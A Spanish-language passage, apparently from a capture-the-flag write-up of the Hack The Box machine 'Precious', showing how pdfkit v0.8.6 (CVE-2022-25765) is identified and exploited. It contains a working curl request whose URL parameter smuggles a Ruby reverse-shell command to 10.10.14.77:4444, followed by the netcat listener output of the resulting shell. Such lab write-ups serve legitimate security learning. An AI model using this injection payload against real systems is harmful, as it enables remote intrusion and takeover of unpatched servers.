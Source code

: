 Después de muchas pruebas tratando de leer archivos locales, importando archivos **.php** para que los ejecute e intentando hacer un port scan interno me di cuenta de que la cosa no iba por ahí.
Así que decidí descargar el archivo y ver los metadatos. Encontramos lo siguiente:

```bash
pdfinfo brlgr0508yms23wo9jttv2ku3cdrbgiz.pdf
Creator:        Generated by pdfkit v0.8.6
Tagged:         no
UserProperties: no
Suspects:       no
Form:           none
JavaScript:     no
Pages:          1
Encrypted:      no
Page size:      612 x 792 pts (letter)
Page rot:       0
File size:      11303 bytes
Optimized:      no
PDF version:    1.4
```


Vemos que el creador es pdfkit v0.8.6. Al buscar si hay alguna vulnerabilidad, encontramos un [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). El cual es vulnerable a una **injección de comandos** donde la URL no está **sanitizada**.


```bash
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.14.77%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.77%22%2C4444%29%29%27%60'
```

Al ejecutar el curl, obtenemos una shell como **ruby**.
```bash
$nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.11.189] 33850
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

****
# Henry
